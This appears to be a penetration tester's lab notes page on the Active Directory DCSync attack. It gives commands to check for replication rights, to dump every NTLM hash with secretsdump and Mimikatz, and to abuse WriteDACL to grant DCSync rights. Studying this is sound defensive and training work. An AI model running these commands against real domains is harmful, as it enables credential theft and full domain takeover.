 ```yaml
---
description: Syncing into full domain compomise
---
```


# DCSync

{% embed url="https://www.youtube.com/watch?ab_channel=Netwrix&v=_m3u13Df7Fc" %}
Hard to prevent and detec.
{% endembed %}

### What is a DCSync attack

DCSync is a attack for stealing the Active Directory password database by using the Directory Replication Service Remote Protocol. This allows an attacker to mimic a Domain Controller to retrieve all the user NTLM password hashes.

To perfrom this attack you need the rights:

* Replicating Directory Changes
* Replciating Directory Changes all

<figure><img src="broken-reference" alt=""><figcaption><p>Its commond to find these right enabled.</p></figcaption></figure>

#### Use powershell to check for Replication rights

First retrieve the user's SID and then use Get-ObjectAcl to check or Replication rights

```shell
Get-DomainUser -Identity mczen  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=zencorp,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

# Returns
AceQualifier          : AccessAllowed
ObjectDN              : DC=ZENCORP,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=ZENCORP,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All
```

### The DCSync attack

DCSync replication can be done by several tools. Runnings these tools and performing the DCSync attack will result in extracting NTLM hashes.

#### Secretsdump

```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

* `-just-dc-ntlm` for NTLM hashes only
* `just-dc` for NTLM, Kerberos and cleartext
* -j`ust-dc-user` username for specific user
* `history` for password history
* `-pwd-last-set` password last changes

#### Mimikatz

When using Mimikatz we have to target a user and must ben run by the user who has the DCSync privileges.

```powershell
# Using mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# Using mimikatz.exe
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:ZENCORP.LOCAL /user:ZENCORP\administrator

# Or target the krbtgt
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### <mark style="color:yellow;">WriteDACL</mark>

The WriteDACL privilege gives a user the ability to add ACLs to an object. This means that we can add a user to this group and give them DCSync privileges.

* ACL: Acces Control Lists defines who has access to which asset or resource.
* ACE: Acces Control Entries stores ACL settings.
* Security principal: Entity to which ACE applies, like users, group or process.

Using powershell we can use these WriteDACL rights to add DCSync privileges to an aacount.

```powershell
# Create credential object
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

# Add DCSynce privilgess
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```
